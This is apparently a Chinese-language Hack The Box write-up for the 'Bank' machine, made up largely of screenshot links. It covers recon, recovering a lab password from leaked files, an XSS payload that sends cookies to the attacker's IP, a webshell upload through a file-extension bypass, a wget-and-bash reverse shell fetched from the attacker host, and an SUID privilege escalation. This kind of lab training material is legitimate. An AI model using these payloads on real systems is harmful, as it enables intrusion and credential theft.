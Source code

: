 # Bank
- URL : https://app.hackthebox.eu/machines/26
- IP : 10.129.29.200

## Recon
- Rustscan
    - ![](https://i.imgur.com/ui0FgmM.png)
- Nmap
    - ![](https://i.imgur.com/Y6kACGg.png)
- 通靈加 Host
    - ![](https://i.imgur.com/iC631Jn.png)
- 加 `/etc/hosts`
- 加 Host 載下來看
    - ![](https://i.imgur.com/DhyF6x6.png)
    - ![](https://i.imgur.com/aOo4atT.png)
    - 發現 302 轉走，但其實是有資料ㄉ
- 掃目錄
    - ![](https://i.imgur.com/WqJPTBb.png)
    - http://bank.htb/assets/
    - ![](https://i.imgur.com/c9TaYlY.png)
    - ![](https://i.imgur.com/fEJpUyV.png)
## 嘗試傳 Webshell
- `support.php`
    - ![](https://i.imgur.com/r1tRnO1.png)
    - ![](https://i.imgur.com/iLxm8GZ.png)
    - 看起來可以傳檔案
    - ![](https://i.imgur.com/lcHhl04.png)
        - 但只能傳圖片
- 嘗試用各種方法繞
    - ![](https://i.imgur.com/GxeRaCs.png)
    - ![](https://i.imgur.com/UgrEjAo.png)
    - ![](https://i.imgur.com/olvLN1G.png)
    - 但基本上都失敗
## 取得密碼
- 通靈掃到 `/balance-transfer`
    - ![](https://i.imgur.com/K3uPCGE.png)
    - ![](https://i.imgur.com/ost4Ysx.png)
- 發現裡面的資訊都有過加密
    - ![](https://i.imgur.com/ci7houA.png)
- 複製出來觀察 size
```python
a = a.replace("[ ]	","")
a = a.split("\n")
l = []
for i in a:
    i = i.split(" 	")
    l.append(int(i[1]))
l.sort()
print(l)
```
- 發現有一個檔案大小只有257
    - ![](https://i.imgur.com/0ULnHZx.png)
    - ![](https://i.imgur.com/5hXHTeB.png)
- 觀察檔案內容
    - ![](https://i.imgur.com/f2WgmUU.png)
    - 取得帳密
        - `chris@bank.htb`
        - `!##HTBB4nkP4ssw0rd!##`
- 順利登入
    - ![](https://i.imgur.com/qBwubSL.png)
- 又回到 `support.php`
    - ![](https://i.imgur.com/vCvpvvA.png)
- 測各種副檔名繞過
    - ![](https://i.imgur.com/rVUJA4g.png)
    - `s.php%00.jpg`
    - `s.php\x00.jpg`
    - 都失敗
- 測 XSS
    - `<script>new Image().src="http://10.10.16.35:1234/"+document.cookie</script>`
    - ![](https://i.imgur.com/9IC6lyA.png)
    - 成功
- 檢查註解
    - ![](https://i.imgur.com/vbvc1Al.png)
    - 發現可以用 `.htb`
    - ![](https://i.imgur.com/OVhx9q9.png)
    - ![](https://i.imgur.com/afIjbXp.png)
- 成功上傳 Webshell
    - ![](https://i.imgur.com/PRCVt4b.png)
## 執行 Reverse shell 
- `bank.htb/uploads/s.htb?A=wget 10.10.16.35:8000/s_HTB`
- `http://bank.htb/uploads/s.htb?A=bash%20s_HTB`
- ![](https://i.imgur.com/CgDYY32.png)
- spawn
    - `python -c 'import pty; pty.spawn("/bin/bash")'`
## 提權
- Kernel Version
    - ![](https://i.imgur.com/pSMl7YV.png)
- 有奇怪的 SUID 程式
    - ![](https://i.imgur.com/CyjdJ1n.png)
- 直接執行
    - ![](https://i.imgur.com/GBxNHv0.png)
    - 就 Root shell ㄌ
- 取得 Flag
    - Root
        - ![](https://i.imgur.com/gjxhnw5.png)
    - User
        - ![](https://i.imgur.com/oknOIgq.png)
## 嘗試不登入傳 shell 
- 先隨便傳
    - ![](https://i.imgur.com/r4Ga6HL.png)
- Burp 改副檔名 `.htb`
    - ![](https://i.imgur.com/lHtWkqM.png)
- 上傳成功
    - ![](https://i.imgur.com/udGq3Oz.png)
    - 所以取得密碼的那一段根本不用做就可以結束ㄌ= =

## 學到了
- php 副檔名方法
- 注意註解 QQ

